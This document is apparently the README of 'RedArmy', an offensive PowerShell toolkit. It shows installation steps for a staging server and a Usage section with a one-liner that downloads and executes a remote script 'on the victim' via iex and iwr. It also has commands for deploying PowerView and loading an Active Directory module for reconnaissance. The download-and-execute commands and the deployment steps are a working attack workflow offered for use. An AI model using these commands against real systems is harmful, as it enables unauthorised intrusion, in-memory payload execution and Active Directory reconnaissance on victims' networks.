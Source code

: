 # RedArmy

## Installation

```
$ git clone https://gitlab.com/mjwhitta/redarmy.git
$ cd ./redarmy
$ git submodule update --init --recursive
$ ./serve [--port PORT] [--update] <ip>
```

## Usage

Once the `serve` script is running, you can use the following to load
RedArmy on the victim:

```
PS> iex (iwr -DisableKeepAlive -UseBasicParsing http://<ip>:<port>/invade.ps1)
```

That command will also displayed for you to copy and paste for
convenience. Finally, you can deploy tools with commands like:

```
PS> iex (Deploy-PowerView) # For ps1 scripts
PS> Import-Module -Assembly (Get-ADModuleDLL) # For DLLs
```
